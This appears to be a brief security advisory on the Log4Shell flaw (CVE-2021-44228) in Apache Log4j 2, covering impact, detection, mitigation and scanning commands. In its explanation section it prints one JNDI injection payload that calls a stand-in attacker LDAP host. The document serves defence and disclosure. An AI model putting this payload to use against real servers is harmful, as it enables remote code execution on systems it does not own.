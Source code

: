 # CVE-2021-44228 – Log4Shell

## Summary

CVE-2021-44228, also known as **Log4Shell**, is a critical remote code execution (RCE) vulnerability in the Apache Log4j 2 library, affecting versions 2.0 to 2.14.1. It allows unauthenticated attackers to execute arbitrary code on vulnerable servers by logging a specially crafted string.

- **Published:** December 2021
- **CVSS Score:** 10.0 (Critical)
- **Affected Software:** Apache Log4j 2
- **Attack Vector:** Remote (via user-supplied log messages)

## Why It Matters

- Widely used Java library in cloud services, CI/CD tools, logging frameworks, and enterprise apps.
- Easily exploitable with minimal effort using JNDI injection.
- Triggered a global response due to massive potential for compromise in cloud and container environments.

## How It Works

The vulnerability abuses the JNDI feature of Log4j, allowing attackers to send a payload like:

${jndi:ldap://attacker.com/a}

When this string is logged, Log4j makes an outbound connection to the attacker’s LDAP server, loading and executing malicious code.

## Detection and Response

- Use scanners like **Trivy**, **Snyk**, or **Defender for Cloud** to detect Log4j in images or VMs.
- Block outbound LDAP/RMI/DNS connections from apps.
- Upgrade Log4j to **2.16.0 or later**.
- Monitor logs for exploitation attempts.

## Mitigation Commands

```bash
# Use Trivy to scan a container for CVEs
trivy image your-container:tag

# Or check locally installed Java apps
find / -type f -name "log4j-core*.jar"

